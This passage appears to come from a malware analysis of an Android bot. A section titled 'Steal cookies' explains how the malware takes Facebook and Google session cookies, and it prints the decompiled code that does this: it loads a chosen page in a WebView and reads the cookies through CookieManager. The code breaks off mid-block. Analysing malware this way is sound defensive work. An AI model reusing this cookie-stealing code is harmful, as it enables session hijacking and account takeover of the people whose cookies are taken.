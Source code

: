 ```cs
            }

            UssdComponent.sendPhoneNumber(stringBuilder0.toString());
        }

        return false;
    }
```

# Steal cookies

The malware will try to steal Cookies from APPs such as `Facebook` and `google`. 

```cs
public class CookiesReaderViewerActivityInterfaceImpl extends IScreen {
    public interface LifeCycleListener {
        boolean onPause();

        boolean onResume();
    }

    private InjectCookiesModel cookieModel;
    private LifeCycleListener lifeCycleListener;
    private WebView webView;

    public CookiesReaderViewerActivityInterfaceImpl(InjectCookiesModel injectCookiesModel0) {
        this.cookieModel = injectCookiesModel0;
    }

    public CookiesReaderViewerActivityInterfaceImpl(InjectCookiesModel injectCookiesModel0, LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0) {
        this.cookieModel = injectCookiesModel0;
        this.lifeCycleListener = cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0;
    }

    private void handleData(Activity activity0) {
        try {
            this.webView.clearView();
            String s = this.cookieModel.getFirstScreen();
            this.webView.loadUrl(s);
            Timber.d("INJECTS -> display file: " + s, new Object[0]);
        }
        catch(Exception unused_ex) {
        }
    }

    private void init() {
        this.webView.getSettings().setDomStorageEnabled(true);
        this.webView.getSettings().setMixedContentMode(0);
        com.sdktools.android.bot.components.injects.system.CookiesReaderViewerActivityInterfaceImpl.1 cookiesReaderViewerActivityInterfaceImpl$10 = new WebViewClient() {
            @Override  // android.webkit.WebViewClient
            public void onPageFinished(WebView webView0, String s) {
                super.onPageFinished(webView0, s);
                if(s.contains(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getScreenToFinish())) {
                    String s1 = CookieManager.getInstance().getCookie(s);
                    StringBuilder stringBuilder0 = new StringBuilder();
                    stringBuilder0.append("print event:");
                    stringBuilder0.append(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getFirstScreen() + " cookies data | \n");
                    stringBuilder0.append(CookieManager.getInstance().getCookie(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getFirstScreen()));
```